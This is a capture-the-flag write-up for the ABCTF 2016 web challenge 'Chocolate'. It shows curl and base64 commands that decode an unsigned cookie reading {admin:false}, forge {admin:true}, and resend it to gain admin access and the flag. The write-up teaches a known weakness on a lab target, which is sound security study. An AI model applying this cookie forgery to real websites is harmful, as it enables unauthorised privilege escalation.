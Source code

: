 _[<<< Return to ABCTF 2016 tasks and writeups](/abctf-2016)_
# Chocolate (Web Exploitation, 50 points)

>If you could become admin you would get a flag. [Link](http://yrmyzscnvh.abctf.xyz/web2/)

The website says that we are not admin, let's see why.

![Screenshot from the website yrmyzscnvh.abctf.xyz/web3](chocolate.png)

```console
root@blinils:~/abctf-2016# curl -D- http://yrmyzscnvh.abctf.xyz/web3/

HTTP/1.1 200 OK
[...cut...]
X-Powered-By: PHP/5.5.9-1ubuntu4.17
Set-Cookie: coookie=e2FkbWluOmZhbHNlfQ%3D%3D
[...cut...]

<html>
[...cut...]
You're not an admin. Please leave this site.
[...cut...]
</html>
```

It seems that the coookie (with three 'o') plays a key role in this challenge.

```console
root@blinils:~/abctf-2016# alias urldecode='python -c "import sys, urllib as ul; \
> print ul.unquote_plus(sys.argv[1])"'
root@blinils:~/abctf-2016# urldecode e2FkbWluOmZhbHNlfQ%3D%3D
e2FkbWluOmZhbHNlfQ==
root@blinils:~/abctf-2016# urldecode e2FkbWluOmZhbHNlfQ%3D%3D | base64 -d
{admin:false}
```

Indeed we need to modify the cookie in order to have the flag.

```console
root@blinils:~/abctf-2016# echo -n {admin:true} | base64
e2FkbWluOnRydWV9
root@blinils:~/abctf-2016# curl -D- http://yrmyzscnvh.abctf.xyz/web3/ -H 'Cookie: coookie=e2FkbWluOnRydWV9'
<html>
[...cut...]
Wow! You're an admin, maybe. Well anyway, here is your flag, ABCTF{don't_trust_th3_coooki3}
[...cut...]
</html>
```
